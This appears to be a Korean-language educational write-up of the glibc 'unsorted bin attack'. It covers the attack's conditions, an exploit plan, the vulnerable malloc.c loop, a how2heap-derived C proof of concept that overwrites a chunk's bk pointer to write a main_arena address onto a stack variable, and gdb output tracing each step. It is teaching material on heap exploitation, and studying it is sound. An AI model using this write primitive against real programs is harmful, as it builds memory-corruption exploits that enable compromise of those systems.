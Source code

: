 # **Unsorted bin attack**

## **Conditions**

* 공격자에 의해 Unsorted Chunk를 생성할 수 있어야 함
* 공격자에 의해 Free Chunk 영역에 값을 저장할 수 있어야 함
* 공격자에 의해 Free Chunk와 동일한 크기의 Heap 영역을 할당할 수 있어야 함

## **Exploit Plan**

1. 2개의 Small Chunk 생성
1. 첫번째 Heap 영역 해제
    * 헤당 Heap 영역은 Unsorted Bin에 등록
1. 해제된 첫번째 Heap의 bk영역에 공격 대상이 될 주소 값 덮어씀
1. 첫번째 Heap 영역과 동일한 크기의 Heap 영역 할당
    * 공격 대상 영역에 main_arnea 영역의 주소가 저장됨

## **vulnerability**

* 아래의 malloc.c 코드에 의해 취약성 발생
* unsorted_chunks() 함수는 bin[0]에 저장된 값을 리턴
* stack_var = &av->bins[0] (main_arena.bins[0])

```
for (;; )
  {
    int iters = 0;
    while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
      {
        bck = victim->bk;
          ...
 
        /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;  // bck == victim->bk == &stack_var - 2 
        bck->fd = unsorted_chunks (av);  // (&stack_var - 2)->fd == stack_var
 
          ...
      }
```

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

* stack_var(0x7fffffffe4d8)

```
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7fffffffe4d8: 0
```

* 2개의 Heap 생성 후 1번째 Heap 영역 free
* 1개의 Heap 영역을 추가로 생성하는 이유는 1번째 chunk가 top chunk와의 병합을 막기 위해서다.

```
Now, we allocate first normal chunk on the heap at: 0x60010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()
We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
```

* free된 Heap 영역이 unsortedbin에 저장된다.
* bk pointer는 0x7ffff7dd1b78을 가리키고 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x603620 (size : 0x209e0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x603000 (size : 0x420)

gdb-peda$ x/4gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000421
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78

gdb-peda$ x/24gx 0x00007ffff7dd1b78
0x7ffff7dd1b78 <main_arena+88>:	0x0000000000603620	0x0000000000000000
0x7ffff7dd1b88 <main_arena+104>:	0x0000000000603000	0x0000000000603000
0x7ffff7dd1b98 <main_arena+120>:	0x00007ffff7dd1b88	0x00007ffff7dd1b88
```

```
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4c8
```

* 1번째 Heap 영역의 bk를 stack_var - 0x10으로 변조 후 1번째 크기와 같은 size로 malloc 할 경우 stack_var 변수에 main_arena의 top 영역이 저장된다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x420                Freed     0x7ffff7dd1b78    0x7fffffffe4c8
0x603420            0x420               0x200                Used                None              None

gdb-peda$ x/gx 0x7fffffffe4d8
0x7fffffffe4d8:	0x00007ffff7dd1b78
```

```
Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7fffffffe4d8: 0x7ffff7dd1b78
```

* victim 주소를 컨트롤 할 수 있지만, 쓰게되는 값은 &av->bins[0] 고정이다.
* 따라서 main_arena 영역에 값을 덮어쓰거나, global_max_fast의 값을 변경할 때 사용한다.

**References**  
<https://www.lazenca.net/display/TEC/unsorted+bin+attack>
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c>